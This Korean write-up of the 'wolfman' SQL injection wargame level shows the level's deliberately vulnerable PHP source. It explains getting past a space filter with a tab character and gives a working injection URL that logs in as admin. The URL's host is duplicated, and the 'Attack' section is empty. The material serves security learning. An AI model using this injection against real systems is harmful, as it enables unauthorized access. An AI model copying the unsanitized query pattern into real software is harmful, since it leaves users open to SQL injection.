

# **LOS wolfman**

##  **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
`if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");` 에서 `space` 를 검사한다. 따라서 `space`대신 `Tab`을 이용해 `Tab`의 hex 값인 `%09` 를 이용하여 쿼리를 보내면 된다.

##  **Query**
>Query
```php
select id from prob_wolfman where id='guest' and pw='1'	or	id='admin'
```

>Input value
```
http://los.eagle-jump.http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=1%27%09or%09id=%27admin
```
`%09` 은 `Tab` 이고, `%27` 은 `'` 이다.

##  **Attack**
